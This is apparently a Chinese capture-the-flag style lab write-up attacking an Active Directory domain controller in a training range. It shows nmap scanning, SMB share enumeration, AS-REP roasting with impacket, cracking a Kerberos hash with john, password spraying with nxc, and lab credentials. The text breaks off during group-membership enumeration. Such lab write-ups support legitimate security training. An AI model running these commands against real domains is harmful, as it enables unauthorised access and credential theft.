







# 无境靶场：[无境原创] Chaos Corp

## nmap

‍

```ps1
 nmap -sV -sC 192.168.111.10 -vv
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-10 15:46 +0800
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:46
Completed NSE at 15:46, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:46
Completed NSE at 15:46, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:46
Completed NSE at 15:46, 0.00s elapsed
Initiating Ping Scan at 15:46
Scanning 192.168.111.10 [4 ports]
Completed Ping Scan at 15:46, 2.43s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:46
Completed Parallel DNS resolution of 1 host. at 15:46, 4.50s elapsed
Initiating SYN Stealth Scan at 15:46
Scanning 192.168.111.10 [1000 ports]
Discovered open port 53/tcp on 192.168.111.10
Discovered open port 80/tcp on 192.168.111.10
Discovered open port 445/tcp on 192.168.111.10
Discovered open port 139/tcp on 192.168.111.10
Discovered open port 135/tcp on 192.168.111.10
SYN Stealth Scan Timing: About 6.53% done; ETC: 15:54 (0:07:23 remaining)
Discovered open port 636/tcp on 192.168.111.10
Discovered open port 5985/tcp on 192.168.111.10
Discovered open port 464/tcp on 192.168.111.10
Discovered open port 88/tcp on 192.168.111.10
SYN Stealth Scan Timing: About 43.07% done; ETC: 15:49 (0:01:21 remaining)
Increasing send delay for 192.168.111.10 from 0 to 5 due to 11 out of 36 dropped probes since last increase.
SYN Stealth Scan Timing: About 47.10% done; ETC: 15:50 (0:01:44 remaining)
Discovered open port 3269/tcp on 192.168.111.10
Discovered open port 3268/tcp on 192.168.111.10
Discovered open port 3268/tcp on 192.168.111.10
Discovered open port 593/tcp on 192.168.111.10
Discovered open port 389/tcp on 192.168.111.10
SYN Stealth Scan Timing: About 73.90% done; ETC: 15:49 (0:00:43 remaining)
Completed SYN Stealth Scan at 15:49, 150.09s elapsed (1000 total ports)
Initiating Service scan at 15:49
Scanning 13 services on 192.168.111.10
Completed Service scan at 15:50, 72.84s elapsed (13 services on 1 host)
NSE: Script scanning 192.168.111.10.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:50
NSE Timing: About 98.47% done; ETC: 15:50 (0:00:00 remaining)
Completed NSE at 15:51, 51.64s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:51
NSE Timing: About 93.27% done; ETC: 15:51 (0:00:02 remaining)
NSE Timing: About 94.23% done; ETC: 15:52 (0:00:04 remaining)
NSE Timing: About 94.23% done; ETC: 15:52 (0:00:06 remaining)
NSE Timing: About 95.19% done; ETC: 15:53 (0:00:06 remaining)
NSE Timing: About 95.19% done; ETC: 15:53 (0:00:08 remaining)
NSE Timing: About 96.15% done; ETC: 15:54 (0:00:07 remaining)
Completed NSE at 15:54, 188.13s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:54
Completed NSE at 15:54, 0.00s elapsed
Nmap scan report for 192.168.111.10
Host is up, received echo-reply ttl 127 (0.37s latency).
Scanned at 2026-07-10 15:46:45 CST for 463s
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE               REASON          VERSION
53/tcp   open  domain                syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http                  syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec          syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-07-10 15:31:37Z)
135/tcp  open  msrpc                 syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn           syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap                  syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sec.org, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-10T15:33:34+00:00; +7h42m10s from scanner time.
445/tcp  open  microsoft-ds          syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: SEC)
464/tcp  open  kpasswd5?             syn-ack ttl 127
593/tcp  open  ncacn_http            syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldapssl?          syn-ack ttl 127
|_ssl-date: 2026-07-10T15:33:33+00:00; +7h42m12s from scanner time.
| ssl-cert: Subject: commonName=ad.sec.org
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:ad.sec.org
| Issuer: commonName=sec-AD-CA/domainComponent=sec
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2025-12-26T03:04:37
| Not valid after:  2026-12-26T03:04:37
| MD5:     4369 5b5b 0231 1909 9ef2 7b05 1122 4801
| SHA-1:   491b 239b 1756 071b 2d52 cd41 30c0 814d 8b39 185f
| SHA-256: 2f21 6198 cede 0dcd 021b 1004 9142 355f eb44 f869 11bd dbbd d472 180b 8a46 ee9d
| -----BEGIN CERTIFICATE-----
| MIIFszCCBJugAwIBAgITGAAAAAPKXM8JjvFfhAAAAAAAAzANBgkqhkiG9w0BAQUF
| ADA+MRMwEQYKCZImiZPyLGQBGRYDb3JnMRMwEQYKCZImiZPyLGQBGRYDc2VjMRIw
| EAYDVQQDEwlzZWMtQUQtQ0EwHhcNMjUxMjI2MDMwNDM3WhcNMjYxMjI2MDMwNDM3
| WjAVMRMwEQYDVQQDEwphZC5zZWMub3JnMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAwXviPL/BFMS5EYTPiCvFbzNNOFnr6rvAH2eI1QXB9Wg7lfCZYx5A
| 3Bm28UxJfXxz/ZyZkRlAPqL8L5fNqsA6J5y76jE25hxVkbqLDlom9XbqvEtnJSlN
| yfl1Btyx4srmgMBqxZ1s/kQu3c+KYVp+zFuZ7RF0880pxwaASku16MIHV6zMiOmi
| Rh6t4tFHaaQXr/lknnBzgSWZ7mtSRYgPxwdLVU+PGf6b3hkVDhwLx9y4ZdFvBeOo
| 6iphIcuI5CDXmvc4oBPvDS/YErdyGgnYhXN96YbGRTo07A1lL/6Au1ni/chLjm3l
| Ccl7VrDKwl/R27ml5Air17O+yWPNaDAMwwIDAQABo4IC0TCCAs0wLwYJKwYBBAGC
| NxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQW
| MBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcN
| AQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFl
| AwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUr
| DgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUyjyF2OIRcIwH4sDiadDn+8JUP50w
| HwYDVR0jBBgwFoAUcXsEn5De8wzGmSeLDZ+rS1HUH8owgb4GA1UdHwSBtjCBszCB
| sKCBraCBqoaBp2xkYXA6Ly8vQ049c2VjLUFELUNBLENOPWFkLENOPUNEUCxDTj1Q
| dWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0
| aW9uLERDPXNlYyxEQz1vcmc/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNl
| P29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIG3BggrBgEFBQcBAQSB
| qjCBpzCBpAYIKwYBBQUHMAKGgZdsZGFwOi8vL0NOPXNlYy1BRC1DQSxDTj1BSUEs
| Q049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmln
| dXJhdGlvbixEQz1zZWMsREM9b3JnP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RD
| bGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MDYGA1UdEQQvMC2gHwYJKwYBBAGC
| NxkBoBIEEIrsHtw87YtAiK6pRXbDsn2CCmFkLnNlYy5vcmcwDQYJKoZIhvcNAQEF
| BQADggEBAJLMFFOVZSYqtxE7XCKpT3IVjEVYoL+nPD8qJQj/0CbS7o7LL2V28+qp
| yc8hANh8Ix1XmT/YRaxzaxvPkyBTm/g1iNQ9SJ46o+cmoCgdE5UXN5bDEI2It1yi
| 1lJ0DGBxslkzNG7wnrdJtCIek635xfwRTZOc/4GKcu8BIii4k1ftazUBu++zFATW
| DF7a4TOZKRc0ESjEb0eEiZmijaN5rtndpRhdDckDIMtnDgYbrdEMuZZFRdJBuApF
| 8TfuNcDfMwB5tgkeY86LI6DMqvmQSyM8fUX0ck+GrLUupVwXCbaXGvxxvyY0U7HV
| QlJd8Xf7A8VzuLnTiES8MMaHDqMuovU=
|_-----END CERTIFICATE-----
3268/tcp open  ldap                  syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sec.org, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-10T15:33:36+00:00; +7h42m12s from scanner time.
3269/tcp open  ssl/globalcatLDAPssl? syn-ack ttl 127
|_ssl-date: 2026-07-10T15:33:34+00:00; +7h42m12s from scanner time.
| ssl-cert: Subject: commonName=ad.sec.org
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:ad.sec.org
| Issuer: commonName=sec-AD-CA/domainComponent=sec
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2025-12-26T03:04:37
| Not valid after:  2026-12-26T03:04:37
| MD5:     4369 5b5b 0231 1909 9ef2 7b05 1122 4801
| SHA-1:   491b 239b 1756 071b 2d52 cd41 30c0 814d 8b39 185f
| SHA-256: 2f21 6198 cede 0dcd 021b 1004 9142 355f eb44 f869 11bd dbbd d472 180b 8a46 ee9d
| -----BEGIN CERTIFICATE-----
| MIIFszCCBJugAwIBAgITGAAAAAPKXM8JjvFfhAAAAAAAAzANBgkqhkiG9w0BAQUF
| ADA+MRMwEQYKCZImiZPyLGQBGRYDb3JnMRMwEQYKCZImiZPyLGQBGRYDc2VjMRIw
| EAYDVQQDEwlzZWMtQUQtQ0EwHhcNMjUxMjI2MDMwNDM3WhcNMjYxMjI2MDMwNDM3
| WjAVMRMwEQYDVQQDEwphZC5zZWMub3JnMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAwXviPL/BFMS5EYTPiCvFbzNNOFnr6rvAH2eI1QXB9Wg7lfCZYx5A
| 3Bm28UxJfXxz/ZyZkRlAPqL8L5fNqsA6J5y76jE25hxVkbqLDlom9XbqvEtnJSlN
| yfl1Btyx4srmgMBqxZ1s/kQu3c+KYVp+zFuZ7RF0880pxwaASku16MIHV6zMiOmi
| Rh6t4tFHaaQXr/lknnBzgSWZ7mtSRYgPxwdLVU+PGf6b3hkVDhwLx9y4ZdFvBeOo
| 6iphIcuI5CDXmvc4oBPvDS/YErdyGgnYhXN96YbGRTo07A1lL/6Au1ni/chLjm3l
| Ccl7VrDKwl/R27ml5Air17O+yWPNaDAMwwIDAQABo4IC0TCCAs0wLwYJKwYBBAGC
| NxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQW
| MBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcN
| AQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFl
| AwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUr
| DgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUyjyF2OIRcIwH4sDiadDn+8JUP50w
| HwYDVR0jBBgwFoAUcXsEn5De8wzGmSeLDZ+rS1HUH8owgb4GA1UdHwSBtjCBszCB
| sKCBraCBqoaBp2xkYXA6Ly8vQ049c2VjLUFELUNBLENOPWFkLENOPUNEUCxDTj1Q
| dWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0
| aW9uLERDPXNlYyxEQz1vcmc/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNl
| P29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIG3BggrBgEFBQcBAQSB
| qjCBpzCBpAYIKwYBBQUHMAKGgZdsZGFwOi8vL0NOPXNlYy1BRC1DQSxDTj1BSUEs
| Q049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmln
| dXJhdGlvbixEQz1zZWMsREM9b3JnP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RD
| bGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MDYGA1UdEQQvMC2gHwYJKwYBBAGC
| NxkBoBIEEIrsHtw87YtAiK6pRXbDsn2CCmFkLnNlYy5vcmcwDQYJKoZIhvcNAQEF
| BQADggEBAJLMFFOVZSYqtxE7XCKpT3IVjEVYoL+nPD8qJQj/0CbS7o7LL2V28+qp
| yc8hANh8Ix1XmT/YRaxzaxvPkyBTm/g1iNQ9SJ46o+cmoCgdE5UXN5bDEI2It1yi
| 1lJ0DGBxslkzNG7wnrdJtCIek635xfwRTZOc/4GKcu8BIii4k1ftazUBu++zFATW
| DF7a4TOZKRc0ESjEb0eEiZmijaN5rtndpRhdDckDIMtnDgYbrdEMuZZFRdJBuApF
| 8TfuNcDfMwB5tgkeY86LI6DMqvmQSyM8fUX0ck+GrLUupVwXCbaXGvxxvyY0U7HV
| QlJd8Xf7A8VzuLnTiES8MMaHDqMuovU=
|_-----END CERTIFICATE-----
5985/tcp open  http                  syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: AD; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| nbstat: NetBIOS name: AD, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b1:94:63 (VMware)
| Names:
|   AD<00>               Flags: <unique><active>
|   SEC<1c>              Flags: <group><active>
|   SEC<00>              Flags: <group><active>
|   AD<20>               Flags: <unique><active>
|   SEC<1b>              Flags: <unique><active>
| Statistics:
|   00 50 56 b1 94 63 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 12005/tcp): CLEAN (Timeout)
|   Check 2 (port 48096/tcp): CLEAN (Timeout)
|   Check 3 (port 55491/udp): CLEAN (Timeout)
|   Check 4 (port 44222/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2026-07-10T15:32:46
|_  start_date: 2026-07-10T07:29:57
|_clock-skew: mean: 7h42m11s, deviation: 0s, median: 7h42m11s

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:54
Completed NSE at 15:54, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:54
Completed NSE at 15:54, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:54
Completed NSE at 15:54, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 470.06 seconds
           Raw packets sent: 3040 (133.712KB) | Rcvd: 63 (2.756KB)
```

‍

## smb

```ps1
nxc smb $IP -u 'Guest' -p '' --shares
SMB         192.168.111.10  445    AD               [*] Windows Server 2016 Standard 14393 x64 (name:AD) (domain:sec.org) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         192.168.111.10  445    AD               [+] sec.org\Guest:
SMB         192.168.111.10  445    AD               [*] Enumerated shares
SMB         192.168.111.10  445    AD               Share           Permissions     Remark
SMB         192.168.111.10  445    AD               -----           -----------     ------
SMB         192.168.111.10  445    AD               ADMIN$                          远程管理
SMB         192.168.111.10  445    AD               C$                              默认共享
SMB         192.168.111.10  445    AD               CEO                             仅限 CEO 组成员访问 | CEO
SMB         192.168.111.10  445    AD               CertEnroll                      Active Directory 证书服务共享
SMB         192.168.111.10  445    AD               Dev                             仅限 Dev 组成员访问 | 项目代码仓库
SMB         192.168.111.10  445    AD               HR                              仅限 HR 组成员访问 | 人才库
SMB         192.168.111.10  445    AD               IPC$            READ            远程 IPC
SMB         192.168.111.10  445    AD               IT                              仅限 IT 组成员访问 | 运维仓库
SMB         192.168.111.10  445    AD               NETLOGON                        Logon server share
SMB         192.168.111.10  445    AD               New             READ            共享 | 新员工入职指引
SMB         192.168.111.10  445    AD               SYSVOL                          Logon server share
```

‍

从 New 里面获取到一个用户凭证

‍

```ps1
nxc smb $IP -u 'newmht' -p 'New@1234' --shares
SMB         192.168.111.10  445    AD               [*] Windows Server 2016 Standard 14393 x64 (name:AD) (domain:sec.org) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         192.168.111.10  445    AD               [+] sec.org\newmht:New@1234
SMB         192.168.111.10  445    AD               [*] Enumerated shares
SMB         192.168.111.10  445    AD               Share           Permissions     Remark
SMB         192.168.111.10  445    AD               -----           -----------     ------
SMB         192.168.111.10  445    AD               ADMIN$                          远程管理
SMB         192.168.111.10  445    AD               C$                              默认共享
SMB         192.168.111.10  445    AD               CEO                             仅限 CEO 组成员访问 | CEO
SMB         192.168.111.10  445    AD               CertEnroll      READ            Active Directory 证书服务共享
SMB         192.168.111.10  445    AD               Dev                             仅限 Dev 组成员访问 | 项目代码仓库
SMB         192.168.111.10  445    AD               HR                              仅限 HR 组成员访问 | 人才库
SMB         192.168.111.10  445    AD               IPC$            READ            远程 IPC
SMB         192.168.111.10  445    AD               IT                              仅限 IT 组成员访问 | 运维仓库
SMB         192.168.111.10  445    AD               NETLOGON        READ            Logon server share
SMB         192.168.111.10  445    AD               New             READ            共享 | 新员工入职指引
SMB         192.168.111.10  445    AD               SYSVOL          READ            Logon server share
```

‍

## LDAP

- 找出哪些用户关闭了 Kerberos 预认证

```PS1
➜  chaos_corp impacket-GetNPUsers 'sec.org/newmht:New@1234' -dc-ip 192.168.111.10
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Name  MemberOf             PasswordLastSet             LastLogon                   UAC
----  -------------------  --------------------------  --------------------------  --------
lily  CN=HR,DC=sec,DC=org  2026-01-06 11:09:53.162523  2026-07-13 21:36:35.418649  0x410200
```

- 直接查找并请求 AS-REP

```ps1
# nxc ldap 192.168.111.10 -u newmht -p 'New@1234' --asreproast ASREPROAST --kdcHost 192.168.111.10
# impacket-GetNPUsers 'sec.org/newmht:New@1234' -dc-ip 192.168.111.10 -request
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Name  MemberOf             PasswordLastSet             LastLogon                   UAC
----  -------------------  --------------------------  --------------------------  --------
lily  CN=HR,DC=sec,DC=org  2026-01-06 11:09:53.162523  2026-07-13 21:36:35.418649  0x410200


$krb5asrep$23$lily@SEC.ORG:5313054ea0205718b20b30e3c4b1b06c$93bea01...
```

‍

```bash
john --wordlist=/mnt/downloads/kali_tools/SecLists-master/rockyou.txt ./krb5
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mahalkita        ($krb5asrep$23$lily@SEC.ORG)
```

- 用 lily 的密码 喷洒域内其他用户，拿到 `Moly:mahalkita`

```ps1
nxc smb 192.168.111.10 -u users.txt -p mahalkita  --continue-on-success
SMB         192.168.111.10  445    AD               [*] Windows Server 2016 Standard 14393 x64 (name:AD) (domain:sec.org) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         192.168.111.10  445    AD               [-] sec.org\Administrator:mahalkita STATUS_LOGON_FAILURE
SMB         192.168.111.10  445    AD               [-] sec.org\Guest:mahalkita STATUS_LOGON_FAILURE
SMB         192.168.111.10  445    AD               [-] sec.org\krbtgt:mahalkita STATUS_LOGON_FAILURE
SMB         192.168.111.10  445    AD               [-] sec.org\DefaultAccount:mahalkita STATUS_LOGON_FAILURE
SMB         192.168.111.10  445    AD               [-] sec.org\mht:mahalkita STATUS_LOGON_FAILURE
SMB         192.168.111.10  445    AD               [+] sec.org\lily:mahalkita
SMB         192.168.111.10  445    AD               [-] sec.org\newmht:mahalkita STATUS_LOGON_FAILURE
SMB         192.168.111.10  445    AD               [-] sec.org\Cook:mahalkita STATUS_LOGON_FAILURE
SMB         192.168.111.10  445    AD               [-] sec.org\Jim:mahalkita STATUS_LOGON_FAILURE
SMB         192.168.111.10  445    AD               [-] sec.org\John:mahalkita STATUS_LOGON_FAILURE
SMB         192.168.111.10  445    AD               [+] sec.org\Moly:mahalkita
SMB         192.168.111.10  445    AD               [-] sec.org\Jock:mahalkita STATUS_LOGON_FAILURE
```

‍

- 凭证

```text
newmht:New@1234
lily:mahalkita
Moly:mahalkita
```

‍

## Moly用户信息收集

‍

- 查看 Moly 所属的用户组

```ps1
bloodyAD -H 192.168.111.10 -d sec.org -u Moly -p mahalkita get membership Moly

distinguishedName: CN=Users,CN=Builtin,DC=sec,DC=org
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Domain Users,CN=Users,DC=sec,DC=org
objectSid: S-1-5-21-2688985321-3766267280-2512124731-513
sAMAccountName: Domain Users

distinguishedName: CN=HR,DC=sec,DC=org
objectSid: S-1-5-21-2688985321-3766267280-2512124731-1111
sAMAccountName: 人事部
```

- 查看 Moly 的权限，Moly 不在 `CN=Dev,DC=sec,DC=org` 组内，但是对其有权限

```ps1
